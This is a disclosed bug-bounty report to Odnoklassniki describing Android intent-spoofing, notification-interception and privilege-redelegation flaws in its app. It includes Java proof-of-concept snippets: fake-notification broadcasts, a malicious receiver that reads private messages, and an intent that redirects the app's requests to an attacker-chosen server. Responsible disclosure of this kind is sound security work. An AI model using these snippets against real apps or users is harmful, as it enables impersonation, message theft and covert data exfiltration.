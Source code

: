 # Multiple critical vulnerabilities in Odnoklassniki Android application

## Report Details
- **Report ID**: 97295
- **URL**: https://hackerone.com/reports/97295
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-11-02T18:02:44.595Z
- **Disclosed**: 2016-07-26T23:07:57.267Z

## Reporter
- **Username**: hardc0re
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ok

## Vulnerability Information
Hello,

I have recently found several critical vulnerabilities in Odnoklassniki Android application, which is one of your projects, thus I am reporting it here.

The first vulnerability is so called Intent spoofing.
The vulnerability lies in ability to start the video upload activity of Odnoklassniki application from inside a different application installed on the same device. This vulnerability happens when a component is made public and requires no special permission. A consequence of this may be that a malicious app sends an intent to a legitimate component (VideoUploadActivity), which will result in data injection or state change (in our case a user might be tricked into uploading content he normally would not upload to ok.ru network).

The following code snippet demonstrates possible exploit code:

Intent m = new Intent();
m.setClassName("ru.ok.android","ru.ok.android.ui.activity.StartVideoUploadActivity");
startActivity(m);

Staying with the intent spoofing vulnerability, there is one more case of this kind of vulnerability.
This time a malicious application is able to send fake Notifications to user about literally any happening or action in Odnoklassniki. User can be tricked this way to do action he did not intend to again. A malicious app might send fake private messages to the victim user, impersonating other users! The user can be misinformed about a comment on his photo or a response in any of groups he belongs to! The origin of this vulnerability is just as the former one, action is made public in the application and it does not require the calling application to have any kind of permission to do so.
This vulnerability originates from class ok.ru.android.services.app.NotifyReceiver

Possible fix to this? Explicitly set the value of android:exported to false or make use of permissions.

A short code snippet demonstrating possible exploitation:

Intent u = new Intent();
u.setAction("ru.ok.android.action.NOTIFY");
u.putExtra("key", "d-147298617");
u.putExtra("message", "Hello there! This is a fake message. You have been tricked.");

//u.putExtra("conversation_id", "");
//u.putExtra("mediatopic_id", "413434225584");

u.putExtra("dsc_id", "612470493988:USER_PHOTO");

getActivity().sendBroadcast(u);

Another vulnerability that I have found is Unauthorized intent receipt, in this certain case it is unauthorized notification (message) receipt. Knowing this vulnerability a potential attacking application is able to intercept private messages, updates, photo comments, post comments, etc. sent to the user. The cause of this vulnerability lies in AndroidManifest.xml. The receipt of a notification (message) should be protected from intercepting with proper permission requirement. Possible mitigation - Do not use implicit intents for communication between the components of a single app or require the target application to have a proper permission acquired.

Here I am enclosing a complete malicious receiver code snippet, which is able to intercept all "messages" shown to the user as a notification. Please note, that the malicious application is able to see not only the message but the userId of the user who sent it and many other sensitive details.

public class MaliciousReceiver extends BroadcastReceiver {
@Override
public void onReceive(Context context, Intent intent) {
    if ("ru.ok.android.action.NOTIFY".equals(intent.getAction())) {

        Bundle localBundle = intent.getExtras();
        if (localBundle != null) {
            String str1 = localBundle.getString("key");
            String str2 = localBundle.getString("message");
            String str3 = localBundle.getString("cid");
            if (str3 != null) {
                String str4 = localBundle.getString("caller_name");
                String str5 = localBundle.getString("server");
                return;
            }

            String str4 = localBundle.getString("nconversation_id");
            String str5 = localBundle.getString("dsc_id");

            Toast.makeText(context, "key:" + str1 + "\nmessage: " + str2 + "\ncid: " + str3 + "\nconversation_id: " + str4 + "\ndsc_id: " + str5, Toast.LENGTH_SHORT).show();
        }
    }
}

}

And here comes the most serious issue. The vulnerabilities explained above affected the data and user privacy in scope of your application "only". This vulnerability, on the other side, violates the whole android security mechanism. The vulnerability is known as "Privilege redelegation". It happens when your application is used as a mediator to help other (malicious) applications to circumvent android permission system.
This vulnerability lies in class ru.ok.android.videochat.VideochatController.java .
The permission which is mediated to 3rd party applications here is the INTERNET persmission, which is truly the most dangerous permission out there.
When we analyze the following line of code:

localHttpMethod = new RestApiMethodBuilder(localServiceStateHolder, HttpMethodType.GET).setTargetUrl(new URI("http://" + this.server + "/", false)).addRelativePath("api-get-signal", true).addSignedParam("uid", localServiceStateHolder.getUserId(), false).addSignedParam("cid", str1, false).addSignedParam("client", Constants.Api.CLIENT_NAME, false).build();

we can clearly notice that there's a variable (this.server) passed directly to the method construction.
As you can imagine, I am able to pass the address of my own server to this variable through an Intent.
This will result in Odnoklassniki application sending an HTTP request to my server with all the data contained!
We cannot alter the data contained within the request, but that does not stop us.
Once any 3rd party application is able to send a HTTP request to arbitrary server in the world just with a single Intent, without even the need to have the INTERNET permission acquired itself, it obviously violates the android security permission principle.

The code demonstration would require longer piece of code, thus I will try to explain possible exploit scenario verbally.
As we can perform a single HTTP request with a single Intent sent to ok.ru application, we can do this more times in row without an issue! Data does not need to be transfered from the device using a text, we could use a morse code for example. We could send the Intents within specific time intervals and delays, which would reflect in arbitrary information being leaked from the device to an arbitrary server. The morse code processing in our means would be processed at the server side of course.

The mediated HTTP request from a 3rd party application may be achieved using a code like this:

Intent m = new Intent();
m.setAction("ru.ok.android.action.NOTIFY");
m.putExtra("key", "vchat");
m.putExtra("cid", "c60b0e06695a4ce896261247b43f772b");
m.putExtra("caller_name", "Fake User");
m.putExtra("server", "myserver.com:1234");
getActivity().sendBroadcast(m);

I hope I have explained each of the vulnerabilities clearly enough so that you can patch them with ease.
If something is not clear enough, please feel free to ask more details. I can provide some PoC with pictures in case of need too.

I am also enclosing a PoC of the privilege redelegation vulnerability.
In the picture there is the HTTP request that is sent by my demo malicious (exploit) application through the ok.ru application to my server.

I am looking forward to hearing from you soon.

Kind regards,
Jan Hodermarsky


## Attachments
- Auswahl_045.png
